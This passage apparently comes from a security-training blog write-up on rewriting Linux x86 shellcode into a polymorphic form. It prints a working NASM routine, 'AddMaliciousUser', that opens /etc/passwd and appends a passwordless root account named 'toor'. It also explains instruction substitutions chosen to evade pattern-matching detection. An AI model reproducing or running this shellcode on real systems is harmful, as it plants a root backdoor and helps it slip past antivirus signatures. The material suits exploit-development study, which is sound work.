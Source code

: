 The first instructions are used by the shellcode for retrieving the pointers to the following decoded strings:

1. stored into the registers `EBX` and `EDI`: `/etc/passwd`
2. stored into the register `ESI`: `toor::0:0:t00r:/root:/bin/bash` (plus `0xa` at the end)

Compared to the original shellcode, I tried to restrict myself from directly moving bytes into registers, but instead using the `PUSH-POP` technique, as it requires the same number of bytes from what I've seen so far.

Moreover, I didn't want to use hard-coded values (`0x1a4` and `0x442`), so I simply used `DEC` and `ROL` to calculate the original values.

Next, there's the routing `AddMaliciousUser`, which appends the string `toor::0:0:t00r:/root:/bin/bash` to the previously-opened file, i.e. `/etc/passwd`:

```nasm
AddMaliciousUser:

    ; exchange EBX with EAX in order to save the
    ;   file descriptor of the file opened
    xchg ebx,eax

    ; clear EAX for later use
    xor eax, eax
    push eax
    pop edx

    ; save the DWORD 0x0000001f into EDX
    push 0x20
    pop edx
    dec edx

    ; save the DWORD 0x00000004 into EAX
    push 0x3
    pop eax
    inc eax

    ; get the pointer to `toor::0:0:t00r:/root:/bin/bash`
    ;   and save it into ECX
    push esi
    pop ecx

    ; call syscall write()
    int 0x80
```

Starting from the top, instead of using `mov ebx, eax` I chose to use an instruction I've rarely used up until now: `XCHG`, which exchanges the contents of the two registers.

Next, I've used the instruction `XOR`, `PUSH`, and `POP` in order to clear `EDX` and `EAX`.

Compared to the original shellcode, which simply clears `EDX` by means of the instruction `xor edx, edx`, mine clears `EAX` too, in order to avoid errors caused by the return value of `open()`.

Moreover, to make the shellcode more polymorphic and evade pattern matching, I used the `PUSH-POP` technique to set the desired values into the registers.
